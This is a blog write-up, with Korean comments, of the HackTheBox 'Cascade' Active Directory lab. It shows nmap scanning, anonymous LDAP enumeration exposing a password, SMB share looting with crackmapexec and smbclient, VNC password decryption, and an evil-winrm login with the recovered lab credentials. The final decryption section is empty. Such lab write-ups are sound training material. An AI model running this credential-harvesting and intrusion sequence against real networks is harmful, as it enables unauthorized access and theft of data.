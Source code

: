 ```yaml
---
layout: post
title: HackTheBox Cascade
subtitle: Acitive Directory 101 Cascade Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - AD
  - OSCP
sidebar:
---
```

## Summary
![](/assets/images/posts/2025-03-04-Cascade/e62731204ae8e75e2ba8c8157bcd0580_MD5.jpeg)

## Target - 10.129.192.253
### Open Port
```bash
nmap -sC -sV -Pn -p- 10.129.192.253 -oN Cascade_allport
```
![](/assets/images/posts/2025-03-04-Cascade/d068db01853b01b1190c5f0893e7b02d_MD5.jpeg)
### LDAP Enumeration Using Ldapsearch
```bash
# https://www.geeksforgeeks.org/ldap-enumeration/
# username 찾기
crackmapexec smb 10.129.192.253 -u '' -p '' --users

# 위에서 찾은 username으로 Ldapsearch
ldapsearch -x -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w '' | grep -i r.thompson
ldapsearch -x sAMAccountName=r.thompson -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w ''

# base64 decoding
rY4n5eva
```

![](/assets/images/posts/2025-03-04-Cascade/da2a3a579a986c400ebd047f5b8475ca_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/a6d72c86ee2c0b9b205f1195837f5c8b_MD5.jpeg)
### SMB Enum (r.thompson Auth)
```bash
crackmapexec smb 10.129.192.253 -u 'r.thompson' -p 'rY4n5eva' --shares
crackmapexec smb 10.129.192.253 -u 'r.thompson' -p 'rY4n5eva' --spider Data --regex .

# 싹다 가져오기
smbclient \\\\10.129.192.253\\Data -U 'r.thompson' --password='rY4n5eva'
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
```
![](/assets/images/posts/2025-03-04-Cascade/bbf9d5955c0dc34aa49627a6d170bfbd_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/d65a2eb43a96c57e046d458ac7dc5716_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/c063e77df0b824b11bddc95e5b68fe55_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/8ee32c59ed3ec56f3938512a9ea94f3b_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/1689b05737a050bda11825906eba2c92_MD5.jpeg)

### VNC Decrypt
```bash
# https://github.com/billchaison/VNCDecrypt
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv
```
![](/assets/images/posts/2025-03-04-Cascade/802c943dd31ce351b2bb1497c97057b7_MD5.jpeg)

### evil-WinRM
```bash
evil-winrm -i 10.129.192.253 -u s.smith -p sT333ve2
```
![](/assets/images/posts/2025-03-04-Cascade/c62bd9b245ee6cf85329f44dcb910f1b_MD5.jpeg)
#### In Evil-WinRM
```bash
# https://activedirectorypro.com/get-aduser-examples/ 참고해서 해보기
Get-ADUser -identity s.smith -properties *
net user s.smith

# s.smith 로그인 시 실행되는 파일 찾기
dir C:\ -recurse -filter MapAuditDrive.vbs -ErrorAction SilentlyContinue
type C:\Windows\SYSVOL\sysvol\cascade.local\scripts\MapAuditDrive.vbs
type C:\Windows\SYSVOL\domain\scripts\MapAuditDrive.vbs
```

![](/assets/images/posts/2025-03-04-Cascade/4f2aa2c333a1674855e684e3995f3069_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/bdd8034515a299f96fba98278f6552b3_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/faab4f175aa18ad9e1a2ba1c12f52c6d_MD5.jpeg)

### SMB Enum (s.smith Auth)
```bash
# smb re-enum
crackmapexec smb 10.129.192.253 -u 's.smith' -p 'sT333ve2' --shares
crackmapexec smb 10.129.192.253 -u 's.smith' -p 'sT333ve2' --spider Audit$ --regex .

# 싹다 가져오기
smbclient \\\\10.129.192.253\\Audit$ -U 's.smith' --password='sT333ve2'
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *

# db 내용 보기 / ArkSvc : BQO5l5Kj9MdErXx6Q6AGOw==
cat RunAudit.bat
sqlitebrowser DB/Audit.db
file CascAudit.exe
```

![](/assets/images/posts/2025-03-04-Cascade/df502df7219d87e613d796e2f72e614b_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/9e2c997ddba01c1a6a941702ea16119b_MD5.jpeg)
![](assets/images/posts/2025-03-04-Cascade/23c44942133cbb507099c06f59d0d9f2_MD5.jpeg)
### AvaloniaILSpy
```bash
# 설치
wget https://packages.microsoft.com/config/ubuntu/19.10/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb
sudo apt update
sudo apt install apt-transport-https
sudo apt update
sudo apt install dotnet-sdk-8.0

sudo apt install mono-devel

git clone https://github.com/icsharpcode/AvaloniaILSpy.git
cd AvaloniaILSpy/
git submodule update --init --recursive

dotnet tool restore
dotnet cake

cd artifacts/linux-x64
./ILSpy
```
![](assets/images/posts/2025-03-04-Cascade/6c980fff9695c52e210688db1e17f2b8_MD5.jpeg)
![](assets/images/posts/2025-03-04-Cascade/1f796170193fca06adce2ff8174a5274_MD5.jpeg)![](assets/images/posts/2025-03-04-Cascade/e6138fbb7da00937f08330bc31148629_MD5.jpeg)
### AES Decrypt in Python
```Python

```